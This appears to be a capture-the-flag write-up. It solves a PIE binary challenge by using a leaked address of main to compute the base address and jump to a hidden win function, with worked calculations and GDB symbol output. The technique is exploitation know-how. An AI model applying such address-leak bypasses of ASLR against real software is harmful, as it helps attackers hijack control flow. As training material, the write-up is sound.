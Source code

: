 



We're analyzing a PIE (Position Independent Executable) binary named `vuln`. The objective is to hijack control flow and jump to a hidden `win` function located at offset `0x12a7`. A segmentation fault occurs when attempting to directly jump to `0x12a7`, due to ASLR and PIE randomizing memory addresses.

## Understanding the Issue

The binary prints the runtime address of `main`, for example:

```
Address of main: 0x55eeb2a1c33d
```

This indicates that the binary is loaded at a randomized base address. The address of `main` in the binary (from symbols) is at offset `0x133d`, and the `win` function is at offset `0x12a7`.

## Step-by-Step Exploitation

### 1. Identify Offsets (From Binary Symbols)

```
0x00000000000012a7  win
0x000000000000133d  main
```

### 2. Get Runtime Address of main

Run the binary:

```
$ ./vuln
Address of main: 0x55eeb2a1c33d
Enter the address to jump to, ex => 0x12345:
```

### 3. Calculate Base Address

Using the runtime address of `main` and its offset in the binary:

```
base_address = runtime_main_address - offset_main
base_address = 0x55eeb2a1c33d - 0x133d = 0x55eeb2a1b000
```

### 4. Calculate Actual Address of `win`

```
win_address = base_address + offset_win
win_address = 0x55eeb2a1b000 + 0x12a7 = 0x55eeb2a1c2a7
```

### 5. Input the Calculated Address

Enter the full calculated address when prompted:

```
0x55eeb2a1c2a7
```

### 6. Repeat on Each Run

Due to ASLR, base address will change every time. Always re-calculate `win` using the leaked `main` address.

### Example Run

```
$ ./vuln
Address of main: 0x56af8e51533d
Enter the address to jump to, ex => 0x12345:
```

Calculation:

```
main offset = 0x133d
base = 0x56af8e51533d - 0x133d = 0x56af8e514000
win offset = 0x12a7
win = 0x56af8e514000 + 0x12a7 = 0x56af8e5152a7
```

Input:

```
0x56af8e5152a7
```

## GDB Output (Symbols)

```
Non-debugging symbols:
0x0000000000001000  _init
0x00000000000010e0  __cxa_finalize@plt
0x00000000000010f0  putchar@plt
0x0000000000001100  puts@plt
0x0000000000001110  fclose@plt
0x0000000000001120  __stack_chk_fail@plt
0x0000000000001130  printf@plt
0x0000000000001140  fgetc@plt
0x0000000000001150  signal@plt
0x0000000000001160  setvbuf@plt
0x0000000000001170  fopen@plt
0x0000000000001180  __isoc99_scanf@plt
0x0000000000001190  exit@plt
0x00000000000011a0  _start
0x00000000000011d0  deregister_tm_clones
0x0000000000001200  register_tm_clones
0x0000000000001240  __do_global_dtors_aux
0x0000000000001280  frame_dummy
0x0000000000001289  segfault_handler
0x00000000000012a7  win
0x000000000000133d  main
0x0000000000001410  __libc_csu_init
0x0000000000001480  __libc_csu_fini
0x0000000000001488  _fini
(gdb) quit
```

## Conclusion

This challenge demonstrates basic PIE binary exploitation using address leakage. By understanding ASLR and symbol offsets, you can compute runtime addresses for exploitation. Always recalculate addresses on every new run due to memory layout randomization.
